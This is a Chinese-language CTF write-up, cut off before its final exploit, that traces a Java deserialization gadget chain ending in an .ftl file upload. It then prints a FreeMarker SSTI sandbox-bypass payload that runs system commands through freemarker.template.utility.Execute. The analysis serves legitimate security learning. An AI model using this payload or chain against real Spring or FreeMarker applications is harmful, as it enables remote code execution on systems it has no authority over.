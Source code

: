 ‍

### 构造链

‍

可以看到有个upload类看下代码

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-85fd36f0150b15f76dae979f682c6dade1ce9f39.png)​

只能上传`.ftl`​文件，那就是想到覆盖`index.ftl`​文件了，往上看如何调用

于是找到`HtmlMap#get()`​方法，传`filename`​ `content`​属性

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-46f48d35090a4fe7b3507ed95e2296c39010d8f6.png)​

在往上跟谁调用了get方法找到`HtmlInvocationHandler#invoke()`​

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-478ffdf830423dd07c4d3957230a34fa98770fbc.png)​

这明显是一个代理类，存在invoke方法，在学习动态代理或者CC1的LazyMap的时候就知道这个`InvocationHandler`​就是动态代理的调用处理器，当使用代理对象的某个方法的 时候就会默认调用这个重写的`invoke`​方法，如下图

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-511fc8f5e71876c6015a6c2cd12a0868dfe4e06b.png)​

然后看控制器

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-f3d032eae6199df70715921eb4acebcf7a358a1f.png)​

发现`/templating`​触发`index.ftl`​

`/getflag`​ 直接裸字节流反序列化

‍

那么结合一下CC1的后半条链子，整条思路链就构造完毕了

```java
AnnotationInvocationHandler#readObject()->HtmlInvocationHandler#invoke()->HtmlMap#get()->HtmlUploadUtil#uploadfile()
```

‍

绕过沙箱的payload

```java
<#assign ac=springMacroRequestContext.webApplicationContext>
  <#assign fc=ac.getBean('freeMarkerConfiguration')>
    <#assign dcr=fc.getDefaultConfiguration().getNewBuiltinClassResolver()>
      <#assign VOID=fc.setNewBuiltinClassResolver(dcr)>${"freemarker.template.utility.Execute"?new()("id")}
```

‍

然后访问ssti templating?name=xxx即可打成功

最终EXP的思路为
